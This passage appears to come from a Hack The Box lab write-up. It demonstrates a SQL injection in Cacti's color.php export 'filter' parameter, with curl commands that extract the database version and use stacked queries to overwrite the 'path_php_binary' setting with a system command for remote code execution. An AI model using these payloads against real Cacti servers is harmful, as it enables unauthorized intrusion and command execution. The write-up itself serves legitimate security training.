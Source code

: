 parameter `filter` in `color.php` in vulnerable for sql injection in export request.
```bash
curl -s -X $'GET' \
    -b $'Cacti=koa9gglffasaklp5bfefl82t6s; cross-site-cookie=bar' \
    $'http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1\')+UNION+SELECT+1,version(),database(),4,5,6,7--+-'
```

![](screenshots/cacti-sqli.png)

PoC also tells that application accept stacked queries, which lead to remote code execution by replacing the `path_php_binary` setting inside the database.

**stacked queries:** In SQL, a semicolon indicates that the end of a statement has been reached and what follows is a new one. This allows executing multiple statements in the same call to the database server; **Source [sqlinjection.net](https://www.sqlinjection.net/stacked-queries/)**

And `path_php_binary` is just a variable in cacti config file which stored php binary location. If we replace this value with any system command, it get executed by the server.

Set value in `path_php_binary`
```bash
curl -s -X $'GET' \
    -b $'Cacti=koa9gglffasaklp5bfefl82t6s; cross-site-cookie=bar' \
    $'http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1\')+UNION+SELECT+1,2,3,4,5,6,7;update+settings+set+value=\'ping+-c+2+10.10.14.187;\'+where+name=\'path_php_binary\';--+-'
```

Verify `path_php_binary` value.
```bash
curl -s -X $'GET' \
    -b $'Cacti=koa9gglffasaklp5bfefl82t6s; cross-site-cookie=bar' \
    $'http://cacti-admin.monitors.htb/cacti/color.php?action=export&header=false&filter=1\')+UNION+SELECT+1,name,value,4,5,6,7+from+settings+where+name=\'path_php_binary\';--+-'
```

![](screenshots/set-command.png)
